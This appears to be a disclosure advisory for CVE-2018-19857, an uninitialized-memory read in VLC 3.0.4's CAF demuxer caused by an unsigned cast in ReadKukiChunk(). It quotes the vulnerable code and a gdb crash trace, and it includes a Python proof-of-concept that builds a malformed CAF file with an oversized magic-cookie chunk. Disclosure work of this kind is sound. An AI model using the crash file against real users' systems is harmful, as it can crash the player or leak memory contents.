 ```yaml
---
date: 2018-12-03
---
```

# CVE-2018-19857: vlc: uninitialized memory read in caf demuxer

The CAF demuxer in VLC 3.0.4 and the master branch before commit
0cc5ea748ee5ff7705dde61ab15dff8f58be39d0 may read memory from an
uninitialized pointer when processing magic cookies in CAF files.

This is caused by a typecast that converts a possibly negative return
value to an `unsigned int` in the function `ReadKukiChunk()`:

`vlc/modules/demux/caf.c`

```c
689 static int ReadKukiChunk( demux_t *p_demux, uint64_t i_size )
690 {
...
692     const uint8_t *p_peek;
...
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
702     {
703         msg_Err( p_demux, "Couldn't peek extra data" );
704         return VLC_EGENERIC;
705     }
```

With a sufficiently large `i_size`, an allocation may fail in
`vlc_stream_Peek()`.  This would result in a return value of
`VLC_ENOMEM`:

`vlc/src/input/stream.c`

```c
494 ssize_t vlc_stream_Peek(stream_t *s, const uint8_t **restrict bufp, size_t len)
495 {
...
507     if (peek == NULL)
508     {
509         peek = block_Alloc(len);
510         if (unlikely(peek == NULL))
511             return VLC_ENOMEM;
512
513         peek->i_buffer = 0;
514     }
```

`vlc/include/vlc_common.h`

```c
475 #define VLC_ENOMEM         (-2)
```

When casted to an `unsigned int`, the comparison of the return value in
`ReadKukiChunk()` won't notice the failure:

`vlc/modules/demux/caf.c`

```c
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
```

The uninitialized `p_peek` is then used to read and copy data, depending
on the codec (see `ProcessALACCookie()`, `ProcessAACCookie()` and
`ReadKukiChunk()`).  This results in a crash and/or a potential infoleak.

Testcase:

```sh
$ ./mkcaf magic.caf
$ gdb --args vlc magic.caf
(gdb) r
...
Thread 9 "vlc" received signal SIGSEGV, Segmentation fault.
...
__memmove_avx_unaligned_erms () at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364
364     ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S: No such file or directory.
(gdb) x/i $rip
=> 0x7ffff6a69f50 <__memmove_avx_unaligned_erms+368 at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364>:   vmovdqu ymm5,YMMWORD PTR [rsi+rdx*1-0x20]
...
(gdb) i r rsi rdx
rsi            0x7fffd4009a00   0x7fffd4009a00
rdx            0x41414141       0x41414141
```

`mkcaf`

```python
#!/usr/bin/python3

import sys
from struct import pack

caff = [
    # File header
    b"caff",                    # mFileType
    pack(">H", 1),              # mFileVersion
    pack(">H", 0),              # mFileFlags

    # Magic cookie chunk header
    b"kuki",                    # mChunkType
    pack(">Q", 0x41414141),     # mChunkSize
]


def main() -> int:
    if len(sys.argv) != 2:
        sys.exit("usage: {} <filename>".format(sys.argv[0]))

    with open(sys.argv[1], "wb") as f:
        f.write(b"".join(caff))
    return 0


if __name__ == "__main__":
    sys.exit(main())
```


## Solution

This issue has been assigned CVE-2018-19857 and it is fixed in the VLC
master branch[1].


## References

1. <https://git.videolan.org/?p=vlc.git;a=commit;h=0cc5ea748ee5ff7705dde61ab15dff8f58be39d0>
